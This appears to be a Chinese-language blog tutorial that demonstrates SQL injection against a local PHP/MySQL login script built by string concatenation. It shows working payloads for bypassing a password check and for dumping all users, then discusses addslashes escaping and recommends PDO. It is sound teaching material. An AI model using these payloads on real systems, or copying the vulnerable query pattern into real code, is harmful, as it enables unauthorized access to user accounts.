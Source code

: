 大家应该都听说过SQL注入吧，但是，网络上的例子貌似都是一些**代码片段**，如果一个新手想要自己尝试一下SQL注入来直观的感受一下SQL注入的危害，显得很无助。我刚学习这方面知识的时候也苦苦找不到这样的代码。最近在知乎上看到很多人都提关于SQL注入的问题，于是，打算写一篇这样的博客。

直接上代码：

先创建数据表：

```mysql
CREATE TABLE IF NOT EXISTS `users`(
   `id` INT UNSIGNED AUTO_INCREMENT,
   `username` varchar(200) NOT NULL,
   `password` CHAR(32) NOT NULL,
   PRIMARY KEY ( `id` )
)ENGINE = InnoDB DEFAULT CHARSET = utf8;

INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'admin', MD5('admin')),
(2, 'huanghantao', MD5('huanghantao'));
```

下面是结果：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/1.png)

（密码是结果md5函数加密的）

然后是PHP脚本处理登录逻辑的代码：

```php
<?php
$servername = "localhost";
$username = "root";
$password = "";
$dbname = "test";
 
// 创建连接
$conn = new mysqli($servername, $username, $password, $dbname);
 
// 检测连接
if ($conn->connect_error) {
    die("连接失败: " . $conn->connect_error);
}

$username = "admin";
$password = "admin";
$sql = "SELECT * FROM users where username = '" . $username . "' AND password = '" . md5($password) . "'";
$result_obj = $conn->query($sql);

if ($result_obj->num_rows) {
	while($row = $result_obj->fetch_assoc()) {
		var_dump($row);
    }
}
```

OK，程序大概就是这样了，

现在我们执行上面这段PHP脚本：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/2.png)

嗯，符合我们的预期。（因为用户名和密码都正确，所以打印出了用户的结果）

好的，接下来开始我们的表演：

我们修改一下PHP脚本的username变量：

```php
$username = "admin' --";
$password = "密码随便写"; // 没错，你写中文也行
```

完整代码如下：

```php
<?php
$servername = "localhost";
$username = "root";
$password = "";
$dbname = "test";
 
// 创建连接
$conn = new mysqli($servername, $username, $password, $dbname);
 
// 检测连接
if ($conn->connect_error) {
    die("连接失败: " . $conn->connect_error);
}

$username = "admin' --";
$password = "代码随便写";
$sql = "SELECT * FROM users where username = '" . $username . "' AND password = '" . md5($password) . "'";
$result_obj = $conn->query($sql);

if ($result_obj->num_rows) {
	while($row = $result_obj->fetch_assoc()) {
		var_dump($row);
    }
}
```

我们执行代码：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/3.png)

说的是`$result_obj`变量不是一个对象，所以没有属性。好的，我们打印一下`$result_obj`看看它究竟是什么：

```php
var_dump($result_obj);
```

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/4.png)

原来返回的是一个boolean类型的变量。说明我们的SQL语句没有执行成功。这就是很坑的一个地方了，网络上的文章大多数是草草的告诉我们，在表单填写类似这样的东西就可以了：

```
admin' --
```

即加个单引号 `'`，加两个 `-`。实际上，或许你得再加点东西。

我们修改下代码：

```php
$username = "admin' -- // ";
$password = "代码随便写";
```

也就是说再加两个`/`。

好的，我们执行一下代码：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/5.png)

怎么样，就算我们不知道密码，只要我们知道这个用户的用户名，就可以登录到这个用户的页面对吧。

好的，接下来，我们再试试，即使没有用户名和密码，我们也可以得到所有用户的用户名和密码：

```php
$username = "' or 1 -- // ";
$password = "代码随便写";
```

执行后的结果：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/6.png)

很可怕对吧。

至于这两段代码中的：

```
admin' --
和
' or 1 --
```

什么意思，网上的文章已经讲烂了，就不多说了。

通过什么的操作，我们可以发现，那个单引号`'`特别捣蛋对吧，所以，我们修改下代码，对单引号进行转义：

```php
$username = "' or 1 -- // ";
$username = addslashes($username);
$password = "代码随便写";
```

执行后的结果：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/7.png)

可以看到，并没有打印出用户信息，所以这个函数阻挡了此次攻击。原因如下：

![](http://oklbfi1yj.bkt.clouddn.com/SQL%E6%B3%A8%E5%85%A5/8.png)

`or`前面的单引号被转义了。

但是，并不建议通过`addslashes`对单引号转义的方式来阻挡这种类型的SQL注入。因为**addslashes对有些特殊字符后跟上'（单引号）并不会加把这个'变成/'**。

这也是为什么很多人建议使用PDO来对数据库进行操作的原因了。

好的，文章到这里结束了，希望对大家有所帮助。文中的代码都可以复制后直接使用，希望可以减少大家踩坑的时间。

happy ending…...





